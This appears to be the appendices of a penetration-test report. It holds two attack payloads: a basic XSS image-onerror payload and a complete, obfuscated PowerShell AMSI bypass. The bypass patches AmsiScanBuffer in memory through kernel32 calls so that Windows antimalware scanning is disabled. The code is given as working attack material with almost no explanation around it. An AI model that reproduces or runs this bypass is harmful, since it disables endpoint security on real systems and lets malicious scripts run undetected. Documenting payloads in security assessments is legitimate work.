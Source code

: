 # Appendices

## Appendix A - XSS

```html
<img src=x onerror="alert(`XSS`)" />
```

## Appendix B - AMSI Bypass

```powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$rMcz964 = @"
using System;
using System.Runtime.InteropServices;
public class rMcz964 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr mA6vvXG2gnE, string ieENc);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr vaNXj5HNlEOD3XgSnt, UIntPtr sxhlJr6z, uint mao4q8QAA0zlG2h7GLMr, out uint QVXz261d);
}
"@

Add-Type $rMcz964

$Y0yA_UgH4Gkz67LrZQ = [rMcz964]::LoadLibrary("$([cHAR](97)+[cHAr]([byTe]0x6d)+[CHAr](93+22)+
[cHar](105*60/60)+[CHaR]([byTe]0x2e)+
[char]([BYtE]0x64)+[ChAr]([byte]0x6c)+
[ChAr]([ByTE]0x6c))")
$mWDeJB6EsdcJ = [rMcz964]::GetProcAddress($Y0yA_UgH4Gkz67LrZQ, "$(('ÂmsíScànBùf'+'fèr').nOrmalIzE([ChaR]([ByTe]0x46)+
[ChAr]([BYtE]0x6f)+[chaR]([bYTe]0x72)+
[cHaR](62+47)+[cHar](68*10/10)) -replace [ChAR](92)+[CHaR](112)+
[CHAr]([bYtE]0x7b)+[ChaR]([BYte]0x4d)+
[ChAR]([bytE]0x6e)+[Char]([byTe]0x7d))")
$p = 0
[rMcz964]::VirtualProtect($mWDeJB6EsdcJ, [uint32]5, 0x40, [ref]$p)
$vE1Iff8Gzn9g0 = "0xB8"
$MgwqWZpEpIMYZPWNWB = "0x57"
$X09HKwAXFudI3631 = "0x00"
$uapsU = "0x07"
$LwfMDQvO6mU = "0x80"
$AIOLsvcJzMgayqwQ = "0xC3"
$C7yuLc = [Byte[]] ($vE1Iff8Gzn9g0,$MgwqWZpEpIMYZPWNWB,$X09HKwAXFudI3631,$uapsU,
+$LwfMDQvO6mU,+$AIOLsvcJzMgayqwQ)
[System.Runtime.InteropServices.Marshal]::Copy($C7yuLc, 0, $mWDeJB6EsdcJ, 6)
```
